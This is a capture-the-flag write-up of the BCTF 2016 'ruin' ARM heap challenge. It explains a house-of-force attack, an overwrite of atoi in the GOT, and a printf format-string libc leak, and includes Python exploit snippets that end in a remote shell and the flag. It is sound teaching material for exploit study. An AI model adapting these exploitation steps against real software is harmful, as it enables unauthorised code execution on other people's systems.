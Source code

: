 ```yaml
---
layout: post
title: BCTF - Ruin Writeup
description: "Writeup for the 2016 bctf heap exploitation exercise (pwn 200) ruin."
modified: 2016-03-22
tags: [writeup, ctf, bctf, arm, heap, pwn]
comments: true
share: true
categories: [writeups]
---
```


I solved this challenge with the help of my teammate [@KT](https://twitter.com/koczkatamas). The required technique and vulnerabilities in this challenge are very similar to the bcloud (pwn 150) exercise I solved this one first so I try to describe them here. I might add a writeup for the other challenge too, if I have the time. 

```
$ ./checksec.sh --file ruin
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   ruin

```

We were given with an ARM (EABI-5) binary, which we immediately loaded up in IDA. The source code is pretty simple so the reversing was pretty straight forward, the Hex-Rays decompiler makes it even easier. The program reads a key and if it is correct we are presented with a menu where we can write strings into three different buffers.

The vulnerabilities were pretty obvious in the binary. The first one is in the key read method at the very beginning, it reads 8 characters into an 8 byte array on the .bss than prints it if it is not the right key.

```c
printf("please input your 8-bit key:");
fread(g8bitKeySecurity, 1u, 8u, (FILE *)stdin);
if ( !strncmp(g8bitKeySecurity, "security", 8u) )
   break;
printf("%s is wrong, try again!\n", g8bitKeySecurity);
```

Luckily there is a heap pointer right after the buffer on the .bss so if we provide an 8 characters long invalid key we have our heap leak, which will be crucial later.

The second vuln is in the edit secret function which allocates an 8 byte long buffer than reads 24 bytes into it.

```c
if ( !gSecretBOF )
  gSecretBOF = (char *)malloc(8u);
printf("please input your secret:");
return fgets(gSecretBOF, 24, (FILE *)stdin);
```

The third vuln is in the sign name function which only checks the upper bound of the supplied integer that later is converted to unsigned. This allows us to allocate arbitrarily large buffer.

So what we have at this point is a heap leak, a binary with no relro and no PIE, a heap buffer that overflows, arbitrary user controlled heap allocation and a third buffer that we can write. This screams house of force (note: a good resource to look for heap exploits is [How2Heap](https://github.com/shellphish/how2heap) by shellphish that also explains and demonstrates house of force in detail).

During house of force we overwrite the size of the wilderness (the size of the last free chunk) to be extremely large so we can allocate huge buffers on the chunked (brk) heap and avoid calling mmap. This way we can move the "end of the heap" to an arbitrary location in the memory and control the next allocation. Since there is no full-relro and there is no PIE we can overwrite .got.plt to gain IP control. To position the "heap end" to the got we have to allocate ``` target_address - 2*pinter_size - heap_current_top``` sized buffer.

```python
## Leak the heapbase
connect = c
c.recvuntil(":")
c.send("xxxxxxxx")
leak = c.recvuntil(':')
print hexdump(leak[8:12])
heapbase = u32(leak[8:12]) - 8
c.send("security")
c.recvuntil(":")

## Overwrite last chunk free space
LAST_CHUNK_SIZE= "\xff"*4 + "\xff"*4
FILL="\x00"*8
sendData(c, 2, ["A"*8+LAST_CHUNK_SIZE+FILL])
print "Wilderness Set Up"
c.send('\n')
c.recvuntil(':')

## Position the "heap end"
heap_top = heapbase + 20
target = e.got['exit']
print hex(target)
address = target - 8 - heap_top
print str(address)
OFFSET_TO_GOT= str(address) + 'A'* (32 -len(str(address)))
sendData(c, 3, [OFFSET_TO_GOT,"A"*10+"\n"])
```


 Our third controlled buffer is 16 bytes long plus the 8 bytes of the chunk header so we would overwrite 24 bytes on the .got.

```
.got:00010F74 __libc_start_main_ptr DCD __imp___libc_start_main
.got:00010F74                                         ; DATA XREF: __libc_start_main+8r
.got:00010F78 __gmon_start___ptr DCD __imp___gmon_start__ ; DATA XREF: __gmon_start__+8r
.got:00010F7C exit_ptr        DCD __imp_exit          ; DATA XREF: exit+8r
.got:00010F80 atoi_ptr        DCD __imp_atoi          ; DATA XREF: atoi+8r
.got:00010F84 strncmp_ptr     DCD __imp_strncmp       ; DATA XREF: strncmp+8r
.got:00010F88 abort_ptr       DCD __imp_abort         ; DATA XREF: abort+8r
```

A good target to overwrite is ```atoi``` because we can directly supply a string as its parameter and has enough space before and after it. Now that we have IP control we need an address to jump to, however we dont yet have the libc base address and the libc version. At this point we decided to overwrite ```atoi``` with the .plt address of the ```printf``` stub to leak further information. 

```python
## leak libc base
c.send("%21$p|%22$p/\n")
libc = c.recvuntil('/')[:-1]
start = int(libc.split('|')[0], 16)
segment = int(libc.split('|')[1], 16)
print hex(start)
print hex(segment)

## Overwrite got
PAYLOAD_ADDR=p32(0x8594)
sendData(c, 1, [PAYLOAD_ADDR+ "\x00"* (16-len(PAYLOAD_ADDR))])
```

Fortunately there are libc adresses on the stack that we can read, so we only need the address of ```system```. With our printf we have arbitrary read from the entire memory thus we can search libc for the system export symbol, this can be further simplified with pwntools DynELF lookup. The only problem is that the ```printf``` input is read by ```fgets``` which terminates on null byte, so we cant directly read addresses containing 0x00 byte. This is not a huge problem because we can still read from the previous or next address and identify the ELF header.

```python
def leaker(addr):
    sys.stdout.write(hex(addr) + ': ')
    if addr%0x100 == 0:
        print "upppss..."
        if not '000' in '%02x'%(addr + 1):
            testVal = leaker(addr + 1)
            if testVal[0:3] == "ELF":
                return "\x7f" + testVal
            else:
                return leaker(addr - 1)
        else:
            return leaker(addr - 1)
    else:
        connect.send(p32(addr) + "%5$s\n")
        data = connect.recvuntil('\nwrong')[4:-6]
        if data == "":
            data += "\x00"
        print '%r' % data
        dump = connect.recvuntil(':')
        return data

d = DynELF(leaker, start)
system = d.lookup('system')
print 'system = %r' % system
```

At this point we have evrything we need, we just have to rewrite the original ```atoi``` address to the leaked ```system``` address. One little thing is that we have overwritten the ```atoi``` which return value is used to navigate the menu, luckily we can use the ```printf``` to navigate by sending as many characters as the menu option we want to hit (the ```printf``` returns the number of printed bytes). Finally we just have to send the "\bin\sh" input to ```system``` and we have our remote shell, to read the flag.

```
BCTF{H0w_3lf_Ru1n3d_XmaS}
```

The complete exploit is availabe [here](/resources/writeup/bctf-2016/ruin/exploit.py) (disclaimer: it was written under CTF circumstances and it might disturb seasoned coders). I think the challange was all right, however it really did not make any difference that it was ARM (besides making a tiny bit harder to figure out the libc version). I was looking for some ARM/Thumb mode switching ROP chain writing or something specific for the architecture, which was not needed to solve the challange. Still I had fun and thanks for the organizers for the challenge.
